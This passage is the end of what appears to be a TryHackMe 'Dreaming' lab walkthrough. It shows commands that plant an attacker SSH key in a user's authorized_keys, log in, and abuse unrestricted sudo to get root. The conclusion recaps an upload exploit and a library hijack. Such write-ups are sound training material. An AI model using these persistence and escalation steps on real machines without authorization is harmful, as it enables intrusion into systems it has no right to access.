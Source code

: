 ```bash
└─$ cat id_ed25519.pub 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMbsvX2b4u0h1tDQMI56nIMDruVeOyzcypxB8nl6gy1q pentester@kali
```

```bash
bash-5.0$ pwd
/home/morpheus
bash-5.0$ mkdir .ssh
bash-5.0$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMbsvX2b4u0h1tDQMI56nIMDruVeOyzcypxB8nl6gy1q pentester@kali' > .ssh/authorized_keys
```

We can now use the private key of the associate public key to connect to the target as morpheus.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Dreaming/Misc File]
└─$ ssh morpheus@10.10.162.34 -i id_ed25519 
<SNIP>
morpheus@dreaming:~$ ls
bash  kingdom  morpheus_flag.txt  restore.py
```

Looking at this user's sudo right we see that Morpheus can run any command as root. We can use this sudo righ to login as root using `sudo su`.
```bash
morpheus@dreaming:~$ sudo -l
Matching Defaults entries for morpheus on dreaming:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User morpheus may run the following commands on dreaming:
    (ALL) NOPASSWD: ALL
morpheus@dreaming:~$ sudo su
root@dreaming:/home/morpheus# ls /root
snap
```

## Conclusion

Congratulations! In this walkthrough, you have exploited a file upload vulnerability in the Pluck CMS to obtain a foothold on the target. Finally, youyou obtained a root shell by hijacking a Python library you had write access to. This machine was designed to show how improper upgrade pratices, password resuse, and the use of weak passwords could seriouly impact an organisation's security posture. Thanks for following up on this walkthrough.
